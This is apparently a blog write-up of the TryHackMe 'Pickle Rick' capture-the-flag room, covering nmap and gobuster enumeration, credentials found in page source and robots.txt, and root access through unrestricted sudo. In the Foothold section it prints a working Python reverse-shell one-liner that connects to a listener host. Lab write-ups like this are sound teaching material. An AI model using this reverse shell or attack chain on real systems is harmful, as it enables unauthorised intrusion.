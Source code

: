 ```yaml
---
title: "TryHackMe - Pickle Rick"
author: Nasrallah
description: "Writeup of easy machine Pickle Rick"
date: 2021-12-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, web, reverse-shell, python, gobuster]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

Hello l33ts, I hope you are doing well. Today we are going to look at [Pickle Rick](https://tryhackme.com/room/picklerick) from TryHackMe.

## **Description**

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## **Enumeration**

As usual, let's start our nmap scan using this commad : `sudo nmap -sV -sC {target_IP} -oN nmap.scan`

-sV - find the version of all the service running on the target

-sC - run all the default scripts

-oN - save the output in a file called nmap

### nmap

```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 10:06 EST
Nmap scan report for 10.10.237.232
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 85:92:6a:04:0e:1c:53:94:c6:8b:84:5f:c3:a3:fc:41 (RSA)
|   256 c1:9b:c3:79:38:ee:e2:ed:fc:85:57:4f:ae:ef:2a:12 (ECDSA)
|_  256 81:d8:73:fe:2d:c0:ce:79:43:bc:56:e7:c9:64:aa:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.00 seconds
```

We see that there is 2 open ports:

- 22(SSH)
- 80(HTTP)

Let's check the web server. Oh no, it seems that Rick is in a problem, anyway, let's check the page source code.

![Sourcecode](/assets/img/tryhackme/pickle/source.png)

Nice, we have found a username,Let's now run Gobuster directory scan using the following command: `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u {target_IP} -x php,txt`

- -x: is to tell gobuster to search for extensions(php, txt)

### Gobuster

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.237.232
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/12/24 10:19:06 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.hta.txt             (Status: 403) [Size: 296]
/.hta.php             (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.237.232/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                    
/index.html           (Status: 200) [Size: 1062]                                  
/login.php            (Status: 200) [Size: 882]                                   
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]                                    
/robots.txt           (Status: 200) [Size: 17]                                    
/server-status        (Status: 403) [Size: 301]                                   

===============================================================
```

Gobuster has found some good stuff, we have a login page and robots.txt file, let's check the latter.

That's a weird string we have found, let's save it and go check to login page.
We have the username and the weird string we found in robots.txt, let's supply them and see what happens.

Great, we are in, and it seems we have a command panel where we can execute code on the target, let's try to get a reverse shell with that.

## **Foothold**

After checking that python3 is installed on the target machine with `which python3` command, i executed the following command to get a reverse shell on my machine after setting up a listener of cource: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`

> You need to change the ip address in the command!

```terminal
$ nc -lnvp 9001                                                                                                                                      130 ⨯
listening on [any] 9001 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.237.232] 58428
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-237-232:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-237-232:/var/www/html$ ^Z #pressed ctrl+z
zsh: suspended  nc -lnvp 9001

$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001 #pressed enter

www-data@ip-10-10-237-232:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt    index.html  portal.php
assets                       denied.php  login.php   robots.txt
www-data@ip-10-10-237-232:/var/www/html$
```

The commands i executed are for getting a stable shell.

## **Privilege Escalation**

When we run `sudo -l` we see that we can run whatever we want!

```terminal
www-data@ip-10-10-237-232:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-237-232.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-237-232.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-237-232:/home/rick$
```

This made our task much easier. With that, we can upgrade directly to root.

```terminal
www-data@ip-10-10-237-232:/home/rick$ sudo su
root@ip-10-10-237-232:/home/rick# whoami
root
root@ip-10-10-237-232:/home/rick#
```

And just like that we have rooted Pickle Rick machine, hope you guys enjoyed it. See you in the next Hack.
